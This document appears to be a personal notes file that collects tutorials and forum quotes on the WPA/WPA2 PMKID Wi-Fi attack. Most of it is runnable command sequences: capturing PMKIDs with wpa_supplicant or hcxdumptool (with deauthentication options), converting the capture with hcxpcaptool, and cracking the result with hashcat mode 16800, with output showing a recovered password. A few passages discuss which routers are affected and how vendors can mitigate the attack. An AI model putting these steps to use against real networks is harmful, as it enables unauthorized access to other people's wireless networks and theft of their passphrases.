


Alex, regarding your question, I think the same thing happens to you as to me at the beginning.
* 1- You look at the name of the interface, with airmon-ng you get
* 2- Connect to a Wi-Fi network through the network manager you have
* 3- Execute the command that put kcdtv (sudo tcpdump -i interface -w name of the package that is saved
* 4- Up to here everything is fine
* 5- Now that this tcpdump collecting packages, take the same mobile and you connect to the same network that you have connected to the pc, putting your password, wait for it to connect and you can then cancel the capture of tcpdump with ctrl + c
* 6- You open the capture with wireshark, you filter by eapol and you should already leave these packages to be able to search the information about pmkid
Hope this can help you!
### [Getting PMKID using wpa_supplicant](https://www.wifi-libre.com/topic-1161-captura-pmkid-con-wpasupplicant.html)
In this topic we will focus on obtaining the PMKID (and the other necessary chains) with the Swiss WiFi knife in Linux: `wpa_supplicant`.
The advantage of this method is that it does not require any "extra" dependency and it is "univeral": We can do it in eny OS in Linux, no matter what the device is, what the chipset of the WiFi interface is.
#### Scanning
We do it with `wpa_cli`, the interactive command interpreter included in wpa_supplicant.
* First run `sud -i` to obtain administrator privileges in the console (we will need to be "root" all the time)
* Then we detect the available WiFi interfaces to know their names by running `iw dev`.
    * In my case I have a single interface called `wlp2s0`
        
        and I also note my mac address that I'll need later.
* We wrote a very basic configuration file to be able to execute `wpa_cli`. We will save it in `/tmp` (this will be erased) by calling it `wpacli.conf`
    `echo "ctrl_interface=/var/run/wpa_supplicant" >> /tmp/wpacli.conf`
* Before we start pulling `wpa_cli` we turn off NetworkManger and make sure the interface is ready to scan
    `systemctl stop NetworkManager; rfkill unblock wifi; ip l s wlp2s0 up`
* We execute `wpa_supplicant` indicating the configuration file (`/tmp/wpacli.conf`) and the WiFi Interface (`wlp2s0`)
    `wpa_supplicant -i wlp2s0 -c /tmp/wpacli.conf -B`
* We so the scan with
    `wpa_cli scan`
* And we get the result with
    `wpa_cli scan_results`
    We collect two data: the eSSID (name of our network) and the bSSID (the mac address of our network):
    
* We kill the `wpa_supplicant` process that we have sent in background (option `-B`) to prevent conflicts and we will be ready to pick up the PMKID and the hashes
    `killall wpa_supplicant`
#### Capture PMKID and hashes
We continue in our console with administrator privileges.
* Let's first write a configuration file with a "junk" key first to connect to our Access Point. We use the `wpa_passphrase` command (also part of `wpa_supplicant`)
    `wpa_passphrase MIWIFI_XXXX 12345678 >> /tmp/pmkid.conf`
    The eSSID that we can copy and paste from the scan should be put before the key. The file will be `/tmp/pmkid.conf`
* Now we can make the attack with: `wpa_supplicant -c /tmp/pmkid.conf -i wlp2s0 -dd` or `wpa_supplicant -c /tmp/pmkid.conf -i wlp2s0 -dd > /tmp/wpa_results` or `wpa_supplicant -c /tmp/pmkid.conf -i wlp2s0 -dd | grep "PMKID from Authenticator" -m 1`
    Everything goes very fast, leave it 4-5 seconds and for the process with `Ctrl+C`. The "trick" is to use the "debug" mode with double output level (argument `-dd`)
* Before picking up the PMKID and the chains that were used to generate them, we see that they are:
    * bSSID that we have already seen in the scan... Anyway, it comes out again in the output of our `wpa_supplicant`
    * our mac: We have seen it in detecting the interfaces. Anyway, it's at the exit.
    * eSSID in hexadecimal format. We do not have it (we have it in ascii format) and we just got it
    * the PMKID
* We make a scroll until the beginning of the sequence (the order `wpa_supplicant`) and we have the eSSID in hexadecimal:
    
    "the essid in hexadecimal is obtained when starting wpa_supplicant"
* We go down the console until we fall in the EAPOL zone. We are in it when we begin to see the hexadecimal long chains multiply (the packages in their original format). The PMKID is in the first EAPOL message. We thus obtain all the elements that were missing.
    
    I suggest trying to follow the process when we scroll. It is interesting to see in detail the steps of a wpa connection with wpa_supplicant:
    * After teaching the essid in hexadecimals that from our configuration file the program "makes a hand on the interface"
        
    * search our essid until you find it
         (here it is)
    * then the association is made
        
    * And later we fall in the EAPOL zone where we find the PMKID
    So far we arrived.
    The "crack" part (attack by dictionary or brute force) can be done at the moment with hashcat.
    We have all the elements to form our "hash". There will probably be alternatives soon. But we already left the focus of this topic: get the PMKID (and the other chains) with the most fundamental: bash and wpa_supplicant. Two things that we will find in all linux systems.
* Form the 16800 file
The content of the written file will look like this: `2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a` The columns are the following (all hex encoded):
    * PMKID
    * MAC AP
    * MAC Station
    * ESSID
### getting PMKID using hcxdumptool
#### Experience
* By using `hcxdumptool`, PMKID can be found from some routers (e.g. china union router CU_XXXX), but cannot be found from some routers (e.g. TP-Link routers), no matter how the parameters are set.
* can get PMKIDs from all available routers by running `hcxdumptool` without `--filterlist=<filterfile>`
* 最后，对于利用PMKID破解PSK的新攻击方式，我做出如下总结：
  1. 该攻击方式并没有明显降低攻击WPA/WPA2网络的难度，依然需要字典式进行暴力破解，只是允许在无客户端情况下进行。
  2. 该攻击只对WPA-PSK/WPA2-PSK有效，对企业级802.1X认证热点（WPA-Enterprise）无效。
  3. 大部分低端家用级路由器由于不支持漫游特性，对该攻击免疫；少部分中高端路由器（往往支持802.11AC）可能受影响，用不上就关掉吧（如果可以的话）。
  4. 对于用户：依然是提高无线密码复杂度，警惕热点密码分享APP。
  5. 对于路由器厂商：对WPA-PSK考虑是否有支持漫游特性的必要，或者增加开关。
#### 0. get prepare and choose a target ap
* `sudo airmon-ng check kill`
* `sudo airmon-ng start wlx70f11c11576b`
* `sudo airodump-ng start wlan0mon` `Ctrl+C`
* `echo "FCD733E71B78" > apmac.txt`
* `sudo airmon-ng stop wlan0mon`
* set the interface to monitor mode manually:
*   `ip link set <interface> down`
*   `iw dev <interface> set monitor control`
*   `ip link set <interface> up`
#### 1. Run hcxdumptool to request the PMKID from the AP and to dump the received frame to a file( in pcapng format)
`$ ./hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --filterlist=apmac.txt --filtermode=2 --enable_status=3`

Output:

        starting scapturing (stop with ctrl+c)
        INTERFACE............:wlp39s0f3u4u5
        FILTERLIST............:0 entries
        MAC CLIENT............:89acf0e761f4(client)
        MAC ACCESS POINT............:4604ba734d4e(start NIC)
        EAPOL TIMEOUT............:20000
        DEAUTHENTICATIONINTERVALL:10 beacons
        GIVE UP DEAUTHENTICATIONS:20 tries
        REPLAYCOUNTERR............:62083
        ANONCE............:9ddca61888470946305b27d413a28cf474f19ff64c71667e5c1aee144cd70a69
IF an AP receives our association request packet and supports sending PMKID we will see a message "FOUND PMKID" after a moment:

        [13:29:57-011]89acf0e761f4->4604ba734d4e<ESSID>[ASSOCIATIONREQUEST,SEQUENCE 4]
        [13:29:57-011]4604ba734d4e->89acf0e761f4[ASSOCIATIONRESPONSE,SEQUENCE 1206]
        [13:29:57-011]4604ba734d4e->89acf0e641f4[FOUND PMKID]
Note: Based on the noise on the wifi channel it can take some time to receive the PMKID. We recommend running hcxdumptool up to 10 minutes before aborting.
`hcxdumptool -h`
* do not run hcxdumptool on logical interfaces (monx, wlanxmon)
    * you would better to run `sudo airmon-ng stop wlan0mon` before running `hcxdumptool`
    * but it seems making no differences by using wlan0mon or wlx70f11c11576b
    * How do you set monitor mode? hcxdumptool doesn't like logical interfaces while the physical interface is leaving managed. So, do not set monitor mode by airmon-ng!
    * In theory, you do not need to set the Wi-Fi adapter to monitor mode – hcxdumptool should do it for you, but if the next command arises messages: `interface is not up; failed to init socket`
        then set the wireless interface into monitor mode manually with commands of the form:
        `sudo ip link set <interface> down`
        `sudo iw dev <interface> set monitor control`
        `sudo ip link set <interface> up`
* `-i <interface>`: interface (monitor mode will be enabled by hcxdumptool)
    * can also be done manually:
        `ip link set <interface> down`
        `iw dev <interface> set type monitor`
        `ip link set <interface> up`
* `-c <digit>`: set scanlist (1,2,3,...)
    * default scanlist is: 1,3,5.7,9,11,13,2,4,6,8.10.12
* `-t <seconds>`: stay time on channel before hopping to the next channel, default: 5 seconds
* `-I`: show wlan interfaces and quit
    * `sudo tcpdump -I`
        * 
        * With this command, we get a list of wlan interfaces
            `c0b6f9daaf3e wlo1 (iwlwifi)`
            `00c0ca900d9f wlp0s20f0u1 (rt2800usb)`
        * And also two warnings:
            `warning: NetworkManager is running with pid 578`
            `warning: wpa_supplicant is running with pid 1190`
            They mean that the programs NetworkManager and wpa_supplicant with process IDs 578 and 1190 are running at the moment. It is highly recommended stopping these programs. This can be done with the kill command, after which specify the pid of processes (change the digits to your values)
* `--filterlist=<file>`
    mac filter list
    format: 112233445566 + comment
    maximum line length 255, maximum entries 64
* `--filtermode=<digit>`: mode for filter list
    * `1`: use filter list as protection list (default) in transmission branch
        receive everything, interact with all APs and CLIENTs in range, except (!) the ones from the filter list
    * `2`: use filter list as targe list in transmission brance
        receive everything, only interact with APs and CLIENTs in range, from the filter list
    * `3`: use filter list as target list in receiving branch
        only receive APs and CLIENTs in range, from the filter list
* `--enable_status=<digit>`: enable status messages, bitmask:
    * `1`: EAPOL
    * `2`: PROBEREQUEST/PROBERESPONSE
    * `4`: AUTENTICATION
    * `8`: ASSOCIATION
    * `16`: BEACON
    * `15`: means to enable real-time display of EAPOL, PROBEREQUEST/PROBERESPONSE, AUTHENTICATON, ASSOCIATION – you can reduce verbality, see the help: https://en.kali.tools/?p=84
* `--disable_deauthentications`
    The above command attempts to collect data from all access points within reach, and both “client-less” attack and a classic deauthentication attack are used. If you want to collect PMKID without parallel deauthentication attack, then use the `--disable_deauthentications` option in addition.

Quote:
> ~~When trying to target a specific AP (making sure I only hit mine, not my neighbors), I'm trying to use `--filtermode=2` and `--filterlist=filter.txt`. `filter.txt` consists of a single line containing my AP's address in the form "05D2BA2B8CD". This consistently returns segmentation fault. Remove just the `--filterlist` and everything appears to work fine, though I'm not sure how `filtermode=2` works with no list, but it runs.~~
> The exact line is:
> `root@notka1i:~/Desktop/PMKID# hcxdumptool -o test.pcapng -i wlan0 --enable_status --filtermode=2 --filterlist=filter.txt`
> I've tried several variants (e.g. `--filterlist` `./filter.txt`, full path, etc.) with the same results.
> did you ever get this to work with the --filterlist=<text file> ? I have been playing around with this and I discovered that if you remove the quotes in your text file, you can use the filter option without any issue. thought I would update if anyone else has run into this issue using the --filterlist option.

Quote:
> So far, nothing but goose eggs (no success yet). I've used three separate routers (Linksys WRT54GL, Netgear Nighthawk R7000, and Belkin N450). All configured with WPA2, no clients attached.
> I've used two separate adapters (Panda PAU09 148f:5572, and Alfa AWUS 051NH v2 148f:3572) against all previously mentioned APs.
> Here's the syntax I used:
> `hcxdumptool -o output.pcapng -i wlan0 -t 5 --enable_status --filterlist=test.txt --filtermode=2`
> `test.txt` was the file containing the BSSID of the AP (colons removed)
> I'll keep testing with a few more adapters and routers and post once I've got something worth posting!

Quote:

> Very nice work. Figured I'd bring scapy into play and make this a lot easier to work with. Weaponized script is up at:
> https://github.com/stryngs/scripts/tree/...id2hashcat

Quote:
> Hi,
> first of all, congratulations to your work - nice job.
> Especially, because the attack is so simple, I'm wondering why nobody discovered it earlier Smile
> Mostly for me, I'm writing a short summary of the stuff here:
> http://netgab.net/web/2018/08/08/yawa-ye...-analysis/
> However, regarding the question whether "my device is affected" or not:
> I guess, consumer grade hardware won't be attackable using this tool, because these simply do not perform PMKID caching (i guess). I did a quick test using an AVM Fritz!Box (popular model in Germany). There is no PMKID in the first message of the 4-way handshake.
> => Therefore, it is not vulnerable, right?!
> However, I tested it as well using enterprise grade equipment (Cisco). The PMKID is included in the first EAPoL message of the 4 way handshake.
> Maybe this is a silly question, but does PMKID including make sense for WPA2 PERSONAL networks?
> In my opinion no, because there is no functional benefit (except with 802.11r FT).
> PMKID caching makes sense for WPA2 Enterprise (802.1X) networks. However, as you outlined, the attack does not work for these WLANs. The reason is, that the PMK is dynamically derived per user per session and is a random value, not included in any dictionary (at least I'm sure for all TLS based EAP methods like EAP-TLS, PEAP, EAP-TTLS etc.).
> So, the combination PMKID caching and PSK networks does not makes sense (right?). However, some vendors might send the PMKID anyways. Despite of the fact, that the playrules for a WPA2 PSK network doesn't change because of the new attack, the mitigation for a vendor is pretty simple:
> => Disable sending of PMKIDs for PSK network (because it does not make sense, right).
> The only thing that remains open is the combination of PSK networks with 802.11r FT - because there is a (small) functional benefit (2 messages instead of 6 during the roaming event).

Quote:
> Limitations:
> This attack will not work on dynamic calculated PMKs.
> You can identify them in your hash file:
> MAC_AP, MAC_STA and ESSID are the same, PMKID changed.
> In that case an EAPOL 4/4 handshake is also useless.

Quote:
> For those who have a chipset that is not supported by the hashcat tools, it is very easy to get the PMKID with wpa_supplicant itself 
> It takes a couple of seconds to get the PMKID
> 

Quote:
> Meant to post this earlier to see if anyone else is experiencing this. I’m using a ThinkPad with The-Distribution-Which-Does-Not-Handle-OpenCL-Well (Kali) and the built in WiFi chipset intel 8260. When I run hcxdumptool either with or without a specific channel it seems to spit out a few notifications, associations and stuff, but then appears to “get stuck” and the terminal really doesn’t say much else. Now if I open another window and run Airodump wlan0mon (its scanning) the terminal window running hcxdumptool starts spitting out all kinds of info and captures handshacks, multiple pmkids etc.
> What do you all typically do? Run hcxdumptool locked on one channel or allow it to scan? Seems strange, but it my case I always have faster results when Airodump is running in another window.

Quote:
> Note**: Since v4.2.1, hxcdumptool --enable_status requires a parameter. 1 is the number you are looking for. You might want to +2 if you want to see which AP is which**.

Quote:
> hcxdumptool is able to run different attack vectors. And the client-less (PMKID) attack vector is only one of them:
> ap-less:
> Only one packet (M2) from a client required. You do not need to hunt for access points. Just wait until the clients come to you. Have patience - some clients will give you their PSK in the clear (hcxpcaptool -E -I -U)!
> This attack vector is the most important one, because clients are weak! Try to annoy them!
> You can run --nonce-error-corrections=0 on that handshake!
> client-less:
> Only one packet (M1 - PMKID) from an access point is required.
> You have to hunt for access points (usually access points don't move). It's hard to annoy an access point.
> You need to have a good antenna (high gain)!
> m4 - retry:
> After receipt of a single M4, M1, M2, M3 are requested as long as we didn't successfull captured an authorized handshake (M2/M3).
> A client and an access point are required for this attack vector! You need to have a good antenna!
> deauthentication (old school):
> Disconnect a client from the network and capture the following authentication.
> A client and an access point are required for this attack vector!
> You need to have a good antenna (high gain)!
> Attack vector will not work if PMF is enabled

Quote:
> Quote:Thanks for the info. Not sure it answered my question?
> Can someone tell me why am only getting Found handshake AP-LESS ,EAPOL TIMEOUT 
> I have not seen PMKID Found only handshake found
> Thanks Kev
> 
> Its because you're not in range of any Routers which broadcast the PMK  just as zerobeat has told you.
> This attack does not enable clientless attacks on ALL MAKES OF ROUTERS. It's only available if the router is setup to provide you with the proper information for the PMK. The data you have is telling you that you have obtained an AP-Less Handshake, meaning you are only able to receive a signal strong enough to the client and not the router.

Quote:
> 虽然您可以指定另一个状态值，但除了 1 之外我没有成功。
Quote:
> 如果AP收到我们的请求数据包并且支持发送PMKID的话，不久就会收到"FOUND PMKID"消息：根据wifi通道上的噪音情况的不同，可能需要过一段时间才能收到PMKID。我们建议，如果运行hcxdumptool超过10分钟还没收到PMKID，那么就可以放弃了。

#### 2. Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.
`$ ./hcxpcaptool -z test.16800 test.pcapng`

Output:

        start reading from test.pcapng

        summary:
        ------
        file name.............:test.pcapng
        file type.............:pcapng 1.0
        file hardware information....:x86_64
        file os information.....:Linux 4.17.11-arch1
        file application information:hcxdumptool 4.20
        network type.............:DLT_IEEEE802_11_READIO(127)
        endianess.............:little endian
        read errors.............:flawless
        packets inside.............:66
        skipped packets.............:0
        packets with RCS.............:0
        beacons(with ESSID inside)....:17
        probe request.............:1
        probe response.............:11
        association requests.............:5
        association responses.............:5
        authentication (OPEN SYSTEM):13
        authentications (BROADCOM)....:1
        EAPOL packets.............:14
        EAPOL PMKIDs.............:1
        
        1 PMKID(s) written to test.16800

The content of the written file will look like this:
`2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a`
The columns are the following (all hex encoded):
* PMKID
* MAC AP
* MAC Station
* ESSID
 In fact, everything is quite simple. The most interesting part of the hash for us is the one that follows the last asterisk. It contains the name of the Access Point in hexadecimal form. To decode this name into a normal form, use the following command:
 `echo HEX_string | xxd -r -p`
For example, I want to know the name that is coded as 50555245204655524e4954555245, then:
`echo 50555245204655524e4954555245 | xxd -r -p`
Results:
`PURE FURNITURE`

`whoismac -p 69d4ec91a19657d64d4ccc869c229bbe*9e3dcf272236*f0a225dab76d*53696c7665724d61676e6f6c6961`

        ESSID..: SilverMagnolia
        MAC_AP.: 9e3dcf272236
        VENDOR.: unknown
        MAC_STA: f0a225dab76d
        VENDOR.: Private
Note: While note required it is recommended to use options `-E -I` and `-U` with hcxpcaptool. We can use these files to feed hashcat. They typically produce good results.注意：我们建议为hcxpcaptool使用选项-E -I和-U，当然，这不是必须的。我们可以使用这些文件来“饲喂”hashcat，并且通常会产生非常好的效果。
* `-E` retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)
* `-I` retrieve identities from WiFi-traffic
* `-U` retrieve usernames from WiFi-traffic
`$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelsit -z test.16800 test.pcang`

#### 3. Run hashcat to crack it.
We can download the newly updated https://hashcat.net/hashcat/ V4.2.0 which cracks two new hash types:
WPA-PMKID-PBKDF2
WPA-PMKID-PMK
The files have been copied to a windows host and “cracked” below for illustration purposes only. Since it’s a single hex encoded string, it’s much easier to copy and mange between different hosts.


        c:\Users\Adam\Downloads\hashcat-4.2.0>hashcat64.exe -m 16800 E4200-WPA2PSK.16800 wordlist.txt
        hashcat (v4.2.0) starting…
        ======================================
        * Device #1: GeForce GTX 1080, 2048/8192 MB allocatable, 20MCU
        OpenCL Platform #2: Intel(R) Corporation
        ========================================
        * Device #2: Intel(R) Core(TM) i7–6800K CPU @ 3.40GHz, skipped.
        Hashes: 1 digests; 1 unique digests, 1 unique salts
        Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
        Rules: 1
        Applicable optimizers:
        * Zero-Byte
        * Single-Hash
        * Single-Salt
        * Slow-Hash-SIMD-LOOP
        Minimum password length supported by kernel: 8
        Maximum password length supported by kernel: 63
        Watchdog: Temperature abort trigger set to 90c
        Dictionary cache built:
        * Filename..: wordlist.txt
        * Passwords.: 3
        * Bytes…..: 29
        * Keyspace..: 3
        * Runtime…: 0 secs
        The wordlist or mask that you are using is too small.
        This means that hashcat cannot use the full parallel power of your device(s).
        Unless you supply more work, your cracking speed will drop.
        For tips on supplying more work, see: https://hashcat.net/faq/morework
        Approaching final keyspace — workload adjusted.
        b0b606458a7945cf7c80b7fefe390506*c0c1c04bfc68*fcc2330136c6*436973636f3136383934:testpassw0rd
        Session……….: hashcat
        Status………..: Cracked
        Hash.Type……..: WPA-PMKID-PBKDF2
        Hash.Target……: b0b606458a7945cf7c80b7fefe390506*c0c1c04bfc68*fcc23…383934
        Time.Started…..: Mon Aug 06 18:32:57 2018 (0 secs)
        Time.Estimated…: Mon Aug 06 18:32:57 2018 (0 secs)
        Guess.Base…….: File (wordlist.txt)
        Guess.Queue……: 1/1 (100.00%)
        Speed.Dev.#1…..: 44 H/s (0.10ms) @ Accel:32 Loops:16 Thr:1024 Vec:1
        Recovered……..: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
        Progress………: 3/3 (100.00%)
        Rejected………: 1/3 (33.33%)
        Restore.Point….: 0/3 (0.00%)
        Candidates.#1….: passw0rd -> testpassw0rd
        HWMon.Dev.#1…..: Temp: 44c Fan: 28% Util: 31% Core:1771MHz Mem:4513MHz Bus:16
        Started: Mon Aug 06 18:32:54 2018
        Stopped: Mon Aug 06 18:32:58 2018
        c:\Users\Adam\Downloads\hashcat-4.2.0>type hashcat.potfile
        b0b606458a7945cf7c80b7fefe390506*c0c1c04bfc68*fcc2330136c6*436973636f3136383934:testpassw0rd
Bassically we can attack this hash as any other hash type. The hash-mode that we need to use is 16800.
`$ ./hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'`

Output:

        hashcat (v4.2.0) starting...

        OpenCL Platform #1:NVIDIA Corporation
        ===========================================
        * Device #1: GeForce GTX 1080, 2028/8112 MB allocatable, 20MCU
        * Device #2: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU
